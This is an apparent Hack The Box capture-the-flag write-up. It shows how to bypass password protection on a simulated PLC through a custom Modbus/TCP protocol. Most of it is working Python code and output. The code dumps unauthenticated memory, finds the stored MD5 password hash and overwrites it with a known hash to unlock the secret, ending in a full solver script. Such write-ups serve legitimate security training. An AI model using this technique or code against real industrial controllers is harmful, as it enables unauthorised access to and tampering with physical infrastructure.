

 <font size='10'>Sneak peek</font>

20<sup>th</sup> May 2024 / Document No. D24.102.73

Prepared By: diogt

Challenge Author(s): diogt

Difficulty: <font color=green>Easy</font>

Classification: Official

# Synopsis

- Bypass password protection to retrieve a secret stored in a PLC using a proprietary (custom) protocol on top of Modbus/TCP 

## Description

- As the crew delves into their quest for acetone peroxide, they stumble upon a decrepit bread factory. Intrigued by the potential for cooperation, they approach the factory and meet the Responders faction, composed of settlers, firefighters, police officers, and medics. The Responders agree to trade acetone peroxide in exchange for the crew's help in restoring the factory to full functionality. With the PLCs in hand, the crew sets up a temporary workshop within the factory's maintenance room. The hackers and engineers collaborate to analyze the aged devices, which are layered with outdated but intricate security protocols. They hook one of the PLCs up to their portable workstation and begin the painstaking process of analyzing the custom protocol used to store the password and secret data in it. Their only lead is that the password is stored in the Memory Block of the PLC under an uncrackable MD5 hash.

## Skills Required

- Basic understanding of Modbus/TCP

## Skills Learned

- Utilizing custom function codes in Modbus/TCP to interact with proprietary protocols
- Analyzing the functionality of custom function codes to identify potential vulnerabilities and flaws

# Enumeration

## Analyzing the files

The challenge has an online instance and also provides us with a downloadable archive containing two files. 

* protocol_information.png: A scan of a document containing valuable information about the proprietary protocol we are tasked to analyze and interact with.
* client.py: A client script that contains two wrappers for the `ModbusRequest` and `ModbusResponse` classes of `pymodbus`. These wrappers enable interaction with proprietary protocols using custom function codes on top of Modbus.

### Custom Modbus Function Code Information

Let's start by analyzing the image to gather information about the protocol in use before we proceed with interacting with the PLC. A first look at the document indicates that it contains detailed information about a custom Modbus function code (0x64) used in a proprietary protocol, including memory block sizes, function codes for reading and writing memory blocks and obtaining secrets, along with specific packet request and response formats and error codes.



The packet format information provides an overview of how the general packet of the custom function is structured `Modbus Struct Encode/Decode` but also provides high-level information about each of the three listed function codes. Based on the description the password used to protect the secret (that as we can see can be obtained by the get_secret command) is stored in the Memory Block. This means we already have all the necessary commands to proceed with our analysis.

Furthermore, the Data Formats indicate that only the get_secret command is password protected. This indicates that the `read_memory_block` and `write_memory_block` commands are unprotected and do not require any authentication

1. **Data Formats:**

   - **0x20 (read_memory_block):** `[addr_0][addr_1][addr_2][length]`

   - **0x21 (write_memory_block):** `[addr_0][addr_1][addr_2][data_0]...[data_n]`

   - **0x22 (get_secret):** `[pass_0]...[pass_n]`

     

2. **Data Response:**

- **0x20 (read_memory_block):** `[data_0]...[data_n]`
- **0x21 (write_memory_block):** `[data_0][data_1]` (1: write completed)
- **0x22 (get_secret):** `[Secret_0]...[Secret_n]`

### Setting up the client

With the information obtained above, we can modify the template client to properly encode and decode each packet. Even though the simplicity of this challenge and the low number of custom function codes do not require such an update to the template, it is important to note that when dealing with proprietary protocols, it is imperative to properly set up the encoding and decoding processes for requesting and receiving data. This will streamline the process of reverse engineering the protocol and properly interacting with it.

```python
# Tested on: 
# python 3.9.18 
# pymodbus==3.5.4

from pymodbus.client import ModbusTcpClient
from pymodbus.pdu import ModbusRequest, ModbusResponse
import struct
import logging
from pymodbus.transaction import ModbusSocketFramer
import time

# Configure logging to display debug messages 
# form pymodbus library to inspect Modbus traffic
logging.basicConfig()
logging.getLogger().setLevel(logging.DEBUG)

HOST_IP = '94.237.60.73' # CHANGE IP
HOST_PORT = 58145       # CHANGE PORT

CUSTOM_FUNCTION_CODE = 0x64 # CHANGE FUNCTION CODE
SESSION = 0x00
ERROR_CODES = {
    0xE009: 'Authorization Error: Invalid password'
}
#Class templates for custom Modbus Request and Response 
# You must configure properly the classes bellow

class CustomProtocolRequest(ModbusRequest):
    function_code = 0x64

    def __init__(self, session= 0x00, code= 0, data=None, **kwargs):
        super().__init__(**kwargs)
        self.session = session
        self.code = code
        self.data = data if data is not None else []

    def encode(self):
        # Dynamically encode data based on its length and type
        data_format = '>BB' + 'B' * len(self.data)
        return struct.pack(data_format, self.session, self.code, *self.data)

    def decode(self, data):
        """Decode a request pdu.
        
        Dynamically decode data based on data lenght

        This function does not return data
        """
        print('[!] Request decode is not required for client!')


class CustomProtocolResponse(ModbusResponse):
    function_code = 0x64

    def __init__(self, session= 0x00, code= 0x00, response_code= 0x00 , data= None, **kwargs):
        super().__init__(**kwargs)
        self.session = session
        self.code = code
        self.data = data if data is not None else []
        self.response_status = False

    def encode(self):
        """Ecnode a response pdu.
        
        Dynamically encode data based on data lenght

        This function returns data
        """
        print('[!] Response encode is not required for client!')
       
        #return

    def decode(self, data):
        """Decode a response pdu.
        
        Decode a response packet where all components including session ID and custom function code are 8-bit values.
        """
        # Unpack the session and code first
        self.session, self.code, self.response_status = struct.unpack('>BBB', data[:3])
        # Decode the remaining data as 8-bit unsigned integers
        self.data = list(struct.unpack('>' + 'B' * (len(data) - 3), data[3:]))

        global SESSION

        SESSION = self.session


def send_custom_protocol_request(client, session, code, data):
    request = CustomProtocolRequest(session=session, code=code, data=data)
    response = client.execute(request)
    
    if response.function_code < 0x80:
        print("Successful response:", response.session, response.code, response.data)
        return response.code, response.response_status, response.data
    else:
        print("Error response:", response)
        return -1, -1, -1 

def send_packet(client, SESSION, CUSTOM_CODE, DATA=[]):
        if client.connect():
            print("Connected to the server")
        
            code, status, data = send_custom_protocol_request(client, session= SESSION, code=CUSTOM_CODE, data=DATA)  # Example with multiple data points        
            
            if len(data) == 2:
                hex_number = (lambda x: (x[0] << 8) + x[1])(data)

                if hex_number in ERROR_CODES:
                    print(f'ERROR: {ERROR_CODES[hex_number]}')
        else:
            print("Failed to connect to the server")

        return code, status, data

if __name__ == "__main__":
    
    client = ModbusTcpClient(HOST_IP, port=HOST_PORT, framer=ModbusSocketFramer)
    client.framer.decoder.register(CustomProtocolResponse)

    data = [0x00, 0x01, 0x02, 0x03]
    code, status, data = send_packet(client, SESSION, 0x22, data)
    print(code, status, data)
```

As seen above we have made changes to the following areas:

Setup variables:

* **CUSTOM_FUNCTION_CODE**: The custom Modbus function code used by the protocol. that it will be provided in the ModbusRequest and ModbusResponse. This will tell the pymodbus library which class to invoke when this function code is sent to it.
* **SESSION**: The session which as per the documentation provided uses a static value of 0x00
* **ERROR_CODES**: A dictionary containing all the known error codes, which will be critical for debugging. 
* Variables for the custom commands we know:
  * READ_MEMORY_BLOCK = 0x20
  * WRITE_MEMORY_BLOCK = 0x21
  * GET_SECRET = 0x22

In the classes, we modified the following functions:

* **Init**: We updated both init functions to handle the data properly and split them into the sections defined by the Modbus Struct Encode and Decode formats specified in the documentation.

* **ModbusRequest encode function:** This function is used by the client to encode and send packets to the Modbus server. The decoding function is only used by the server.
* **ModbusResponse decode function:** This function is used by the client to decode incoming packets from the Modbus server. The encoding function is only used by the server.
  * In the decode function, we have also included a check for any Error Codes that will print the corresponding text in case they are detected.

The support functions **send_custom_protocol_request** and **send_packet** also got updated to properly reflect the initial **data** variable split into **session**, **code**, and **data**. 

### Interactive with the Modbus Server using the custom function code

Now that we have proper protocol ModbusRequest and ModbusResponse wrappers we can test them out by issuing a command. We can attempt to read the secret using the custom command 0x22: get_secret. First, we will need to update the **HOST** and **PORT** variables to reflect the IP and PORT of our remote instance. Then adding the following lines of code and executing the client should send a request to the server and return a response.

```python
password_list = [0x00, 0x01, 0x02, 0x03] # random values to test the command
code, status, data = send_packet(client, SESSION, GET_SECRET, password_list)
```

As we can see from the extended output due to the DEBUG logging being enabled the packet was successfully sent to the server and also received a response.

```python
python3 client.py

DEBUG:pymodbus.logging:Connection to Modbus server established. Socket ('192.168.178.23', 58440)
Connected to the server
DEBUG:pymodbus.logging:Current transaction state - IDLE
DEBUG:pymodbus.logging:Running transaction 1
DEBUG:pymodbus.logging:SEND: 0x0 0x1 0x0 0x0 0x0 0x8 0x0 0x64 0x0 0x22 0x0 0x1 0x2 0x3
DEBUG:pymodbus.logging:New Transaction state "SENDING"
DEBUG:pymodbus.logging:Changing transaction state from "SENDING" to "WAITING FOR REPLY"
DEBUG:pymodbus.logging:Changing transaction state from "WAITING FOR REPLY" to "PROCESSING REPLY"
DEBUG:pymodbus.logging:RECV: 0x0 0x1 0x0 0x0 0x0 0x7 0x0 0x64 0x0 0x22 0xf0 0xe0 0x9
DEBUG:pymodbus.logging:Processing: 0x0 0x1 0x0 0x0 0x0 0x7 0x0 0x64 0x0 0x22 0xf0 0xe0 0x9
DEBUG:pymodbus.logging:Factory Response[CustomProtocolResponse': 100]
DEBUG:pymodbus.logging:Adding transaction 1
DEBUG:pymodbus.logging:Getting transaction 1
DEBUG:pymodbus.logging:Changing transaction state from "PROCESSING REPLY" to "TRANSACTION_COMPLETE"
Successful response: 0 34 [224, 9]
ERROR: Authorization Error: Invalid password
```

> In case of unexpected behavior ensure that the client is running on a setup similar to the tested setup: python 3.9.18  and pymodbus==3.5.4

We received an error_code `Authorization Error: Invalid password`, which is expected and verified the correct functionality of our client. With the client working as expected we can change the logging level to ERROR only in case we send or receive a malformed packet.

```python
logging.getLogger().setLevel(logging.ERROR) # Change logging to ERROR
```

Reviewing the challenge description again indicated that the password hash is stored in the Memory Block of the PLC under an uncrackable MD5 hash.

> Their only lead is that the password is stored in the Memory Block of the PLC under an uncrackable MD5 hash.

Let's attempt to read the memory using the read_memory_block command. We already know the memory block size and the command format:

* Memory block size: 16*1024 bytes
* Read Memody Block struct: `[addr_0][addr_1][addr_2][lenght]`

Since the lenght of which we can read is restricted to one byte this means we can only read up to 256 bytes at a time. Let's attempt to read the first 256 bytes by changing the send_packet arguments.

```python
data= [0x00, 0x00, 0x00, 0xFF]
code, status, data = send_packet(client, SESSION, READ_MEMORY_BLOCK, data)
```

And executing the client again. We can see several data stored in the memory block. Moreover, we can see several null bytes (0x00) which are probably the separators used for each entry (as also seen in C/C++ string termination null character).

```
python3 client.py

Connected to the server
Successful response: 0 32 [234, 93, 129, 13, 0, 71, 0, 27, 247, 48, 163, 4, 124, 221, 113, 0, 123, 112, 193, 0, 34, 0, 100, 51, 0, 130, 0, 108, 165, 78, 234, 0, 33, 0, 89, 114, 237, 30, 0, 1, 44, 6, 104, 229, 33, 244, 138, 80, 0, 41, 97, 136, 66, 130, 26, 85, 0, 8, 176, 73, 157, 124, 0, 253, 246, 0, 190, 0, 195, 82, 10, 85, 182, 0, 208, 165, 189, 161, 39, 62, 242, 136, 0, 95, 254, 98, 0, 123, 132, 245, 223, 139, 238, 0, 111, 98, 30, 116, 7, 28, 149, 217, 66, 0, 18, 0, 138, 0, 145, 201, 211, 248, 0, 76, 89, 93, 148, 255, 92, 149, 118, 0, 122, 94, 79, 53, 167, 230, 59, 31, 211, 188, 0, 109, 191, 132, 48, 102, 151, 0, 161, 0, 147, 205, 254, 60, 187, 132, 103, 161, 174, 0, 147, 132, 12, 234, 45, 54, 109, 18, 113, 0, 43, 89, 88, 110, 49, 89, 23, 71, 90, 236, 0, 230, 17, 110, 20, 216, 30, 0, 207, 225, 104, 56, 107, 0, 132, 123, 183, 239, 145, 125, 46, 32, 207, 7, 0, 57, 96, 249, 114, 128, 102, 88, 148, 0, 190, 247, 56, 0, 106, 79, 252, 115, 94, 192, 0, 228, 124, 53, 123, 139, 104, 58, 160, 238, 21, 0, 156, 3, 0, 42, 115, 86, 19, 28, 160, 31, 0, 103, 175, 77, 229, 183, 110, 99, 213, 104, 17, 0, 141, 0, 84, 187, 0]
```

We can update the code to automatically increment the address and read blocks of 256 bytes until the entry memory is read or we reach a block of unwritten memory (usually denoted by bytes of value 0xFF).

```python
def increment_address(address, increment):
    # address is a list of 3 bytes
    address_int = (address[0] << 16) + (address[1] << 8) + address[2]
    address_int += increment
    return [(address_int >> 16) & 0xFF, (address_int >> 8) & 0xFF, address_int & 0xFF]


if __name__ == "__main__":
    
    client = ModbusTcpClient(HOST_IP, port=HOST_PORT, framer=ModbusSocketFramer)
    client.framer.decoder.register(CustomProtocolResponse)

    address = [0x00, 0x00, 0x00]  # Starting 3-byte address
    read_length = 0xFF  # Number of bytes to read
    memory_block_data = []

    for i in range(0, 64): # 64 * 256 == 16 * 1024
        data = address + [read_length]
        
        code, status, data = send_packet(client, SESSION, READ_MEMORY_BLOCK, data)
        

        if all(byte == 0xFF for byte in data):
            print("All bytes are 0xFF, exiting loop.")
            break
        
        memory_block_data += data
        # Increment the address by read_length (0xFF)
        address = increment_address(address, read_length)
    
    print(memory_block_data)

```

Once we have read all the data from the Memory Block we can split them using the null byte to get each entry inside the memory. Let's define a helper function to split the list.

```python
def split_list_at_value(input_list, split_value):
    result = []
    sublist = []

    for item in input_list:
        if item == split_value:
            if sublist:
                result.append(sublist)
                sublist = []
        else:
            sublist.append(item)

    if sublist:
        result.append(sublist)

    return result
```

And then invoke the function after we finish reading the memory block. Then we can print all the entries with values bigger than 16 bytes, since an MD5 hash is 128bits longs (or 16 bytes).

```
split_value = 0x00
memory_block_entries = split_list_at_value(memory_block_data, split_value)
for entry in memory_block_entries:
        if len(entry) >= 16:
            print(entry)
```

Executing the updated client returns only one value


```
python3 client.py

<SNIP>
[231, 66, 156, 102, 135, 63, 155, 43, 158, 110, 120, 133, 161, 6, 128, 118, 219, 218, 247, 109, 21]
```

So we can conclude that the password hash is stored somewhere inside this entry with 5 additional data bytes of unkown functionality. Lets find where inside the memory block this entry is located by finding its start address.

```
def find_sublist_index(main_list, sublist):
    sublist_len = len(sublist)
    for i in range(len(main_list) - sublist_len + 1):
        if main_list[i:i + sublist_len] == sublist:
            return i
    return -1


<SNIP>

hash_entry_index = find_sublist_index(memory_block_data, hash_entry)
print(hash_entry_index)
```

With the above helper function and the two lines of code below when we execute the client we will get the index of the entry start address.

```
python3 client.py 

<SNIP>
1019
```

Now that we know that the start address is 1019, we can attempt to overwrite the hash with a new value, which we know the plaintext value of. This way we can bypass the password restriction and access the secret. 

# Solution: 

Now that we have a plan to bypass the password restriction, let's write the necessary code to perform the hash overwrite. Since the entry contains 5 additional bytes, we will need to create a loop that will change the entry and then attempt to read the secret until we overwrite the correct place where the hash is located. The final client code (solver) will be formatted as follows:

```python
# Tested on: 
# python 3.9.18 
# pymodbus==3.5.4

from pymodbus.client import ModbusTcpClient
from pymodbus.pdu import ModbusRequest, ModbusResponse
import struct
import logging
from pymodbus.transaction import ModbusSocketFramer
import time
import hashlib

# Configure logging to display debug messages 
# form pymodbus library to inspect Modbus traffic
logging.basicConfig()
logging.getLogger().setLevel(logging.ERROR)

HOST_IP = '94.237.57.119' # CHANGE IP
HOST_PORT = 31781       # CHANGE PORT

CUSTOM_FUNCTION_CODE = 0x64 # CHANGE FUNCTION CODE
SESSION = 0x00
ERROR_CODES = {
    0xE009: 'Authorization Error: Invalid password'
}

READ_MEMORY_BLOCK = 0x20
WRITE_MEMORY_BLOCK = 0x21
GET_SECRET = 0x22

#Class templates for custom Modbus Request and Response 
# You must configure properly the classes bellow

class CustomProtocolRequest(ModbusRequest):
    function_code = 0x64

    def __init__(self, session= 0x00, code= 0, data=None, **kwargs):
        super().__init__(**kwargs)
        self.session = session
        self.code = code
        self.data = data if data is not None else []

    def encode(self):
        # Dynamically encode data based on its length and type
        data_format = '>BB' + 'B' * len(self.data)
        return struct.pack(data_format, self.session, self.code, *self.data)

    def decode(self, data):
        """Decode a request pdu.
        
        Dynamically decode data based on data lenght

        This function does not return data
        """
        print('[!] Request decode is not required for client!')


class CustomProtocolResponse(ModbusResponse):
    function_code = 0x64

    def __init__(self, session= 0x00, code= 0x00, response_code= 0x00 , data= None, **kwargs):
        super().__init__(**kwargs)
        self.session = session
        self.code = code
        self.data = data if data is not None else []
        self.response_status = False

    def encode(self):
        """Ecnode a response pdu.
        
        Dynamically encode data based on data lenght

        This function returns data
        """
        print('[!] Response encode is not required for client!')
       
        #return

    def decode(self, data):
        """Decode a response pdu.
        
        Decode a response packet where all components including session ID and custom function code are 8-bit values.
        """
        # Unpack the session and code first
        self.session, self.code, self.response_status = struct.unpack('>BBB', data[:3])
        # Decode the remaining data as 8-bit unsigned integers
        self.data = list(struct.unpack('>' + 'B' * (len(data) - 3), data[3:]))

        global SESSION

        SESSION = self.session


def send_custom_protocol_request(client, session, code, data):
    request = CustomProtocolRequest(session=session, code=code, data=data)
    response = client.execute(request)
    
    if response.function_code < 0x80:
        #print("Successful response:", response.session, response.code, response.data)
        return response.code, response.response_status, response.data
    else:
        print("Error response:", response)
        return -1, -1, -1 

def send_packet(client, SESSION, CUSTOM_CODE, DATA=[]):
        if client.connect():
            print("Connected to the server")
        
            code, status, data = send_custom_protocol_request(client, session= SESSION, code=CUSTOM_CODE, data=DATA)  # Example with multiple data points        
            
            if len(data) == 2:
                hex_number = (lambda x: (x[0] << 8) + x[1])(data)

                if hex_number in ERROR_CODES:
                    print(f'ERROR: {ERROR_CODES[hex_number]}')
        else:
            print("Failed to connect to the server")

        return code, status, data


def increment_address(address, increment):
    # address is a list of 3 bytes
    address_int = (address[0] << 16) + (address[1] << 8) + address[2]
    address_int += increment
    return [(address_int >> 16) & 0xFF, (address_int >> 8) & 0xFF, address_int & 0xFF]


def split_list_at_value(input_list, split_value):
    result = []
    sublist = []

    for item in input_list:
        if item == split_value:
            if sublist:
                result.append(sublist)
                sublist = []
        else:
            sublist.append(item)

    if sublist:
        # check is entry is empty memory 
        if not all(x == 0xFF for x in sublist):
            result.append(sublist)

    return result

def find_sublist_index(main_list, sublist):
    sublist_len = len(sublist)
    for i in range(len(main_list) - sublist_len + 1):
        if main_list[i:i + sublist_len] == sublist:
            return i
    return -1


def string_to_list_of_ints(input_string):
    # Convert the string to a list of integers
    int_list = [ord(char) for char in input_string]
    return int_list

def int_to_3_byte_list(value):
    return [(value >> 16) & 0xFF, (value >> 8) & 0xFF, value & 0xFF]


if __name__ == "__main__":
    
    client = ModbusTcpClient(HOST_IP, port=HOST_PORT, framer=ModbusSocketFramer)
    client.framer.decoder.register(CustomProtocolResponse)

    address = [0x00, 0x00, 0x00]  # Starting 3-byte address
    read_length = 0xFF  # Number of bytes to read
    memory_block_data = []

    for i in range(0, 64): # 64 * 256 == 16 * 1024
        data = address + [read_length]

        code, status, data = send_packet(client, SESSION, READ_MEMORY_BLOCK, data)
        

        if all(byte == 0xFF for byte in data):
            print("All bytes are 0xFF, exiting loop.")
            break

        memory_block_data += data
        # Increment the address by read_length (0xFF)
        address = increment_address(address, read_length)
    

    split_value = 0x00
    memory_block_entries = split_list_at_value(memory_block_data, split_value)

    hash_entry = []
    for entry in memory_block_entries:
        if len(entry) >= 16:
            print(entry)
            hash_entry += entry
  

    hash_entry_index = find_sublist_index(memory_block_data, hash_entry)
    print(hash_entry_index)


    passowrd = 'new_password'
    password_list = string_to_list_of_ints(passowrd)

    # Hash the secret value using SHA-256
    hash_object = hashlib.md5()
    hash_object.update(passowrd.encode())  # Convert secret to bytes and hash it
    hashed_value = hash_object.digest()  # Get the hash as bytes

    # Convert hash to a list of integers
    hashed_value_list = list(hashed_value)

    for increment in range(0, 6):
        address = int_to_3_byte_list(hash_entry_index+increment)
        print(f'Trying address {address}')
        code, status, data = send_packet(client, SESSION, 0x21, address + hashed_value_list)
        print(code, status, data)


        code, status, data = send_packet(client, SESSION, 0x22, password_list)
        print(code, status, data)

        if len(data) > 2:
            print('Found correct hash address!')

            flag = ""

            for char in data:
                flag += chr(char)

            print('FLAG', flag)
```


## Getting the Flag

Executing the solver will grant us access to the secret which will reveal the flag!

```
python3.9 client.py

<SNIP>

[136, 136, 136, 136, 136, 136, 22, 37, 149, 197, 137, 57, 196, 174, 11, 53, 243, 152, 146, 230, 231]
1019
Trying address [0, 3, 251]
Connected to the server
33 255 [1]
Connected to the server
ERROR: Authorization Error: Invalid password
34 240 [224, 9]

<SNIP>

Trying address [0, 4, 0]
Connected to the server
33 255 [1]
Connected to the server
34 255 [72, 84, 66, 123, 121, 48, 117, 95, 53, 104, 48, 117, 49, 100, 95, 56, 51, 95, 99, 52, 50, 51, 102, 117, 49, 49, 95, 119, 104, 52, 55, <SNIP> 125]
Found correct hash address!
FLAG HTB{y0u_5h0u1d_83_c423fu11_ <SNIP> }
```

